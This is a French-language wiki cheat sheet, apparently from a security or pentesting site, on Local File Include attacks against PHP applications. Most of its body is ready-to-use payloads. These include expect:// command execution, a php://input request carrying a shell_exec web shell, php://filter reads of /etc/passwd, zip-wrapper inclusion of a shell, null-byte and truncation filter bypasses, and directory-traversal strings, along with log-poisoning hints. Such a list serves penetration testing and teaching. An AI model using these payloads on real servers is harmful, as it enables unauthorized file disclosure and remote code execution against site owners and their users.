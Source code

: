 ```yaml
---
title: Local File Include
permalink: /Local_File_Include/
---
```


# Local File Include

Une faille de type Local File Include (LFI) consiste à inclure un fichier local à partir d'une entrée utilisateur. Dans certains cas ceci permet d'accéder à des fichiers non situés dans le webroot voire d'executer du code.

PHP
---

### PHP Wrappers

Il y a plusieurs "Wrappers" en PHP qui peuvent être utilisés pour exploiter des LFI.

-   PHP expect wrapper (désactivé par défaut):

``` text
target.php?page=expect://ls
```

-   PHP input wrapper:

``` text
POST /target.php?page=php:/input&cmd=ls
[..]
Content-Length: 44

<?php echo shell_exec($_GET['cmd']);?>
```

-   PHP php://filter (permet d'inclure un fichier et l'encoder en base64. Ceci permet de lire du code PHP:

``` text
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

-   PHP php://filter sans base64:

``` text
vuln.php?page=php://filter/resource=/etc/passwd
```

-   PHP ZIP Wrapper LFI (à condition d'avoir uploadé un zip contenant le payload). Le zip sera décompressé dans shell.php:

``` text
vuln.php?page=zip://path/to/file.zip%23shell.php
```

### Divers

Il est possible d'inclure certains fichiers qui peuvent contenir des entrées utilisateurs si on veut executer du code (ex: User-Agent, etc.):

-   /proc/self/environ
-   Logs Apache
-   Emails (on peut essayer d'énumerer les utilisateurs locaux avec VRFY)

Technique du Null byte (ne fonctionne pas sur les versions récentes de PHP:

``` text
vuln.php?page=/etc/passwd%00
vuln.php?page=/etc/passwd%2500
```

L'injection de loooongues valeurs peut permettre de bypasser certains filtres si on a des truncate:

``` text
vuln.php?page=/etc/passwd.................................................................................
vuln.php?page=../../../../../../../../../../../../../../../../../../../../etc/passwd
vuln.php?page=/etc/passwd/../../../../../../../../../../../../../../../../../../../..
```

[Category:Web](/Category:Web "wikilink") [Category:Exploitation](/Category:Exploitation "wikilink")
